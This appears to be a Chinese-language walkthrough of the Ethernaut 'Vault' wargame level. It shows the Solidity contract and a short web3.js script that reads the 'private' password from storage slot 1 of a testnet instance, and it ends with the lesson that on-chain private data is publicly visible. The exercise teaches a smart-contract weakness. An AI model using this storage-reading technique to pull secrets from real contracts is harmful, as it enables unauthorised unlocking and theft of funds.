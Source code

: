 # Vault

> 打开 vault 来通过这一关!



### 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

## 攻击思路

### 黑猫

合约无解，但是password作为明文在构造时传入了，只要找到构造合约的交易就能找到password。我在[Etherscan](https://rinkeby.etherscan.io/address/0x4958d0e84c5709afa517772557e478a190cc5996#code)上查看合约时发现提示：

![image-20220525144931517](.\网站提示.png)

然后我点进提示的地址：0xB32Ef1e8b55FE270Bc665F52076bc677B0D02f8f

发现这个合约与我的实例合约一样，并且这个合约有明文的构造函数

![image-20220525145216653](./构造函数.png)

抱着试一试的态度，居然成了。

![image-20220525145318261](./试一试.png)

不过这纯属瞎猫碰到死耗子。不是该题的正确解题思路。



### 白猫

web3.js有函数：getStorageAt

```js
// 获取地址在某个特定位置的存储值。
// 参数
//	String - 用来获取存储值的地址。

//	Number|String|BN|BigNumber - 存储的索引位置。

//	Number|String|BN|BigNumber - (可选) 如果传入值则会覆盖通过 //web3.eth.defaultBlock 设置的默认区块号。预定义的区块号可以使用 "latest","earliest" "pending", 和 "genesis" 等值。

//	Function - (可选) 可选的回调函数，其第一个参数为错误对象，第二个参数为函数运行结果。

// 返回值
//	Promise 返回 String - 给定位置的存储值。

web3.eth.getStorageAt(address, position [, defaultBlock] [, callback])

```



## 攻击代码

根据solidity中变量存储在内存插槽（一个slot有256位，32个字节）中，在被攻击合约中有两个变量：

```solidity
  bool public locked;// boo1占8个字节，一个插槽中可以放32个bool，locked占了插槽0中1个字节，此时插槽0还有31个字节
  bytes32 private password;// bytes32占32个字节，因为插槽0中还有31个字节，不够放password的32个字节，所以password占插槽1
```

```js
//初始化基本对象
const Web3 = require('web3');
const web3 = new Web3(new Web3.providers.HttpProvider("https://rinkeby.infura.io/v3/4d7440b583e447f7b7d5630b038e0dc7"));

web3.eth.getStorageAt("0x0b8D3e77A426537E467F797a46C61F6CF6476790", 1)
.then(console.log);
```



请记住, 将一个变量设制成私有, 只能保证不让别的合约访问他. 设制成私有的状态变量和本地变量, 依旧可以被公开访问.

为了确保数据私有, 需要在上链前加密. 在这种情况下, 密钥绝对不要公开, 否则会被任何想知道的人获得. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) 提供了一个可以判断某个人是否有某个秘密参数的方法,但是不必透露这个参数.

生成新实例前往下一关